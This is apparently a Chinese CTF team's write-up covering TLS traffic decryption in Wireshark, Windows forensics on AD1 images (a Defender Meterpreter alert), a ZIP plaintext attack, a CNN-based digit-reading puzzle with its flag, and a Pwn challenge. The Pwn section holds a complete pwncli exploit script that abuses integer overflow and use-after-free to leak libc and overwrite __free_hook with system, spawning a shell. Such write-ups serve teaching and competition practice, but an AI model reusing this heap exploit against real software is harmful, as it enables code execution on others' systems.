






MISC
流量 | 赛后解出
sb了，原先没用wireshark解密过tls文件。
首先追踪中间的tcp流，可以看到这一条消息

然后按照这种格式写到一个文件里
CLIENT_HANDSHAKE_TRAFFIC_SECRET <client_random> <secret>
SERVER_HANDSHAKE_TRAFFIC_SECRET <client_random> <secret>
CLIENT_TRAFFIC_SECRET_0 <client_random> <secret>
SERVER_TRAFFIC_SECRET_0 <client_random> <secret>
EXPORTER_SECRET <client_random> <secret>

然后
在 编辑->首选项->protocols 中选择 tls 加载这个文件

然后重启wireshark打开流量包，可以看到一个png文件，提出来

幽默完了，其实早就导出来了。。但是因为写的格式有问题/wireshark重启之后大眼漏神没看到导致错过了。。。可以被开除MISC手籍了
取证一 | 赛后解出
先把第一个AD1文件用FTK_Image软件导出(sb出题人，用这个出纯恶心人)
值得注意的是，当用
FTK导出的时候，选一个文件就行，但是如果用file，不同文件还是有差别的。。
然后找system32下的Certlog目录，打开数据库文件，选倒数第二个表，有一个MyTmp 然后第二个表有序列号，挨个试出来的（这道题到底不知道为什么，当时在日志中看到了GoodTemplate且日志报警了，于是就一直试这个。。）
取证二
用FTK挂载AD1镜像，然后导出文件到本地磁盘，进取证大师。
进windows日志，搜木马，然后找到如下的内容
1 警告 72 2024-12-04 00:04:04 Microsoft-Windows-Windows Defender 0 1116 SYSTEM DC.hack.com %%827, 4.18.1807.18075, {1107620A-CDF5-4897-884E-AFEFF0466A33}, 2024-12-03T16:04:04.460Z, , , 2147890808, Trojan:Win64/Meterpreter!pz, 5, 严重, 8, 特洛伊木马, https://go.microsoft.com/fwlink/?linkid=37020&name=Trojan:Win64/Meterpreter!pz&threatid=2147890... 正常
然后打开对应的windows日志Microsoft-Windows-Windows Defender%4Operational.evtx

ez_sight | ❥(^_-) pmczx
压缩包有密码
明文攻击，明文（ 公告.txt ）的压缩算法选store
密钥 [ ffe9e9e9 d65f814a f3c468c9 ]
根据说明建构模型
class SimpleCNN(nn.Module):
def __init__(self):
super(SimpleCNN, self).__init__()
self.conv1 = nn.Conv2d(1, 32, kernel_size=(3, 3), stride=(1, 1), padding=(1, 1))
self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0, dilation=1, ceil_mode=False)
self.conv2 = nn.Conv2d(32, 64, kernel_size=(3, 3), stride=(1, 1), padding=(1, 1))
self.fc1 = nn.Linear(in_features=3136, out_features=128, bias=True)
self.fc2 = nn.Linear(in_features=128, out_features=10, bias=True)
self.actf = nn.ReLU()
def forward(self, x):
x = self.conv1(x)
x = nn.ReLU()(x)
x = self.pool(x)
x = self.conv2(x)
x = nn.ReLU()(x)
x = self.pool(x)
x = x.view(3136)
x = self.fc1(x)
x = nn.ReLU()(x)
x = self.fc2(x)
return x
import torch
import pickle
import torch.nn as nn
import numpy as np
from PIL import Image
class SimpleCNN(nn.Module):
def __init__(self):
super(SimpleCNN, self).__init__()
self.conv1 = nn.Conv2d(1, 32, kernel_size=(3, 3), stride=(1, 1), padding=(1, 1))
self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0, dilation=1, ceil_mode=False)
self.conv2 = nn.Conv2d(32, 64, kernel_size=(3, 3), stride=(1, 1), padding=(1, 1))
self.fc1 = nn.Linear(in_features=3136, out_features=128, bias=True)
self.fc2 = nn.Linear(in_features=128, out_features=10, bias=True)
self.actf = nn.ReLU()
def forward(self, x):
x = self.conv1(x)
x = nn.ReLU()(x)
x = self.pool(x)
x = self.conv2(x)
x = nn.ReLU()(x)
x = self.pool(x)
x = x.view(3136)
x = self.fc1(x)
x = nn.ReLU()(x)
x = self.fc2(x)
return x
model = torch.load('password.pt')
def check(model, img):
inp = np.array(img)
outputs = torch.tensor(inp, dtype=torch.float32).unsqueeze(0) # 不用/255?
pred = model(outputs)
#print(pred)
pred_idx = torch.argmax(pred, dim=0).item()
return pred_idx
result = ''
for i in range(14):
image = Image.open(f'flag/{i}.bmp').convert('L')
result += str(check(model, image))
print(result)
81294687889085
dart{2855dc9b-b8c2-3c82-86d9-6afa9111b715}
Pwn | Hkbin
整型溢出/UAF，漏洞很多

#!/usr/bin/env python3
# Use pwncli
# Date: 2025-03-23 08:39:55
# Editor: hkbin
# Usage:
# Debug : python3 exp.py debug elf-file-path -t -b malloc -b \$rebase\(0x3000\)
# Remote: python3 exp.py remote elf-file-path ip:port
from pwncli import *
cli_script()
set_remote_libc('libc-2.31.so')
context.arch="amd64"
file_path = "/home/hkbin/Workspace/competition/2025RCQYS/pwn/encoder/pwn"
io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
def cmd(i, prompt=b'>>'):
sla(prompt, i)
def upload(idx, size, payload):
cmd('1')
sla("FileIdx: ", str(idx))
sla("FileSize: ", str(size))
sa("FileData: ", payload)
#......
def download(idx):
cmd('2')
sla("FileIdx: ", str(idx))
ru("FileData: ")
#......
def encode(idx):
cmd('3')
sla("FileIdx: ", str(idx))
#......
def decode(idx):
cmd('4')
sla("FileIdx: ", str(idx))
#......
def release(idx):
cmd('5')
sla("FileIdx: ", str(idx))
# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
# one_gadgets: one_gadget_binary(binary_path, more)
# CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)
# Shellcode：ShellcodeMall.amd64
# tcache safelinking: protect_ptr(address, next)
# tcache safelinking_de: reveal_ptr(data)
# recvlibc: recv_current_libc_addr(offset(int), timeout(int))
# set_libcbase: set_current_libc_base_and_log(addr(int), offset(str or int))
# set_elfbase: set_current_code_base_and_log(addr, offset)
# burp:
# for i in range(0x10):
# try:
# new_func()
# except (EOFError):
# gift.io = copy_current_io()
upload(0, 0x70, b'a'*0x70)
upload(1, 0x70, b'b'*0x70)
upload(2, 0x470, b'b'*0x470)
upload(0, -1, b'a'*0x10)
upload(0, 0x80, flat([
b'c'*0x78, 0x101
]))
# release overlap chunk
release(1)
# alloc
upload(3, 0xf0, flat([
b'a'*0x70,
0, 0x481
]).ljust(0xf0, b'\x00'))
# alloc a tcache
upload(4, 0x70, b'd'*0x70)
release(4)
release(2)
# leak
download(3)
r(0x80)
# leak libc
leak_libc = u64(r(8))
log2_ex(hex(leak_libc))
libc_base = leak_libc - 0x71895895dbe0 + 0x718958771000
log2_ex(hex(libc_base))
# now try to hijack tcache fd
upload(6, 0x70, b'a'*0x70)
upload(7, 0x70, b'a'*0x70)
upload(8, 0x70, b'a'*0x70)
upload(9, 0x70, b'a'*0x70)
upload(7, -1, b'a'*0x10)
# put chunk 9 to tcache
release(9)
release(8)
# overflow in chunk 8
upload(7, 0x88, flat([
b'c'*0x78, 0x81,
libc_base + libc.sym['__free_hook']
]))
# free hook hijack
upload(10, 0x70, flat([
b'/bin/sh\x00'
]).ljust(0x70, b'\x00'))
upload(11, 0x70, flat([
libc_base + libc.sym['system']
]).ljust(0x70, b'\x00'))
release(10)
ia()
修复很迷，hxd修了一天都没修出来。。
吐槽
-
靶场真的卡，我直到9.30才进去。
-
居然卡到需要后台管理手动SQL上分 [○･｀Д´･ ○]